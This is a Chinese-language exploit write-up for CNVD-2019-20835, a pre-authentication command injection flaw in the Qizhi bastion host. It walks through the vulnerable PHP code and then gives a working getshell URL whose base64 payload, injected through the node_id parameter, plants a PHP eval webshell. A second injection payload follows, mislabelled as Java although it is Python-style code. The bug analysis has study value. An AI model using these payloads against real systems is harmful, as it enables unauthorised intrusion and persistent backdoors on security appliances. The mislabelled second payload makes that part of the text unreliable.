



# （CNVD-2019-20835）齐治堡垒机 前台远程命令执行漏洞

## 一、漏洞简介

利用条件：无需登录

### 二、漏洞影响

### 三、复现过程

#### 漏洞分析

问题出现在ha_request.php文件，第37行的exec函数，$url为用户可控的变量，可见第33和34行。目光来到第23和24行，只要node_request函数的返回值为"OK"，即可跳过fatal函数（此函数为自定义函数，作用类似PHP内置的exit函数），继续往下执行。

## Node_request函数的定义在include/common.php文件中，见下图2。按照其原本的逻辑，其作用是请求$url，并返回其内容。根据代码逻辑，$url

\"http://$req_ipaddr\".\"/listener/$method.php?n=$req_node_id&a=\".urlencode(json_encode($args));。所以$url变量值类似于

<http://203.0.113.1/listener/cluster_manage.php?n=1&a=%5B%22install%22%5D>这样的字符串。

但是$req_ipaddr和$req_node_id均来自用户输入。因此，假设10.20.10.11为黑客可控的服务器，listener/cluster_manage.php文件的内容为"\<?php echo 'OK';>"，即可使得node_request函数返回"OK"，从而跳过fatal函数，继续往下执行来到exec函数。

回到exec函数，此时该函数的第一个参数是这样的，\"wget --no-check-certificate [http://203.0.113.1](http://203.0.113.1/) /ha_get_install.php?n=$req_node_id -O backup_scripts.tar.bz2\"，所以我们的payload只能放在$req_node_id变量中。

见下图，$req_ipaddr和$req_node_id其实来自于$_REQUEST['ipaddr']和$_REQUEST[node_id']，并做了全局过滤，删除掉一些危险字符。




### 漏洞复现

访问**<http://www.0-sec.org/listener/cluster>_manage.php**返回"OK"。

执行以下链接即可getshell，执行成功后，生成PHP一句话马/var/www/shterm/resources/qrcode/lbj77.php 密码10086

```
https://www.0-sec.org/ha_request.php?action=install&ipaddr=www.0-sec.org&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash`|${IFS}|echo${IFS}
```

据说还有另外一个版本是java的:

```
POST /shterm/listener/tui_update.php
a=["t';import os;os.popen('whoami')#"]
```

### 参考链接

> <https://www.cnblogs.com/StudyCat/p/11256944.html>
